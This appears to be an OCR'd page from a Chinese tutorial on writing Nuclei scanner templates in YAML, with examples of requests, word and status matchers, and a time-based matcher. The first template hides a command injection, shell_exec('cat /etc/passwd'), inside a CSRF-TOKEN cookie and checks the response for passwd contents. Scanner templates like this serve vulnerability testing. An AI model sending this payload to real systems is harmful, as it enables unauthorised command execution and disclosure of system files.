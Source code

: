 ```yaml
requests:
  - method: GET
    path:
      - "{{BaseURL}}"
    headers:
      Cookie: "CSRF-TOKEN=rnqvt{{shell_exec('cat /etc/passwd')}}to5gw; simcify=uv82sg0jj2oqa0kkr2virls4dl"

    skip-variables-check: true
    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200
      - type: regex
        regex:
          - "root:.*:0:0:"
        part: body
```

---

### 匹配

```yaml
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "http://crm.bd.itf.nc/ICustomerExportToCrmService"
          - "nc.itf.bd.crm"
        part: body
        condition: and

      - type: word
        words:
          - "text/xml"
        part: header

      - type: status
        status:
          - 200
```

**匹配时间**

```yaml
# 此模板是基于DSL的持续时间匹配器的示例，当响应时间与定义的持续时间（在这种情况下为6或大于6秒）匹配时，返回true。
    matchers:
      - type: dsl
        dsl:
          - 'duration>=6'
```
